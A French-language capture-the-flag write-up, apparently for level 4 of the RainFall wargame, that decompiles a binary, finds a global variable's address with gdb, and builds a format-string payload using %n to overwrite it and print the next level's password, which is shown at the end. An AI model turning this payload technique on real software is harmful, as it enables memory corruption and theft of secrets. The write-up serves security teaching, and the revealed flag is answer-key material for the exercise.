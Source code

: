 # Level 4

Nous avons un exécutable similaire au niveau précédent.
Décompilons:
```
void p(char *param_1)
{
  printf(param_1);
  return;
}

void n(void)
{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void)
{
  n();
  return;
}
```
Cette fois-ci le code est séparé en 3 fonctions, et le printf est dans une fonction a part.
Le code affiche toujours stdin sur stdout.Nous allons utiliser la faille de printf comme precedemment.
Trouvons les adresses que nous avons besoin avec gdb.
```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
ici l'adresse de "m" est 0x8049810, et le contenu est comparé avec "$0x1025544" pour exécuter la commande system("/bin/cat /home/user/level5/.pass").
Il ne manque plus qu'a trouver la place du buffer ou nous pouvons controler l'execution du programme.
```
(gdb) run
Starting program: /home/user/level4/level4
AAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
AAAAAb7ff26b0.bffff764.b7fd0ff4.0.0.bffff728.804848d.bffff520.200.b7fd1ac0.b7ff37d0.41414141
```
Ici le 12e élément.
Nous n'avons plus qu'a injecter le payload suivant:
```
python -c 'print("\x10\x98\x04\x08" + "%16930111x" + " %12$n")' > /tmp/exploit1
```
"%16930111x" : le nombre d'espace que dois compter %n pour set "m".
0x1025544 aurait du faire en décimal 16930116 - 4 = 16930112. Sur gdb ca fonctionnait mais en dehors de gdb pour l'exécution j'ai du mettre "16930111".
```
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930111x" + " %12$n")' > /tmp/exploit1
                                                                               b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```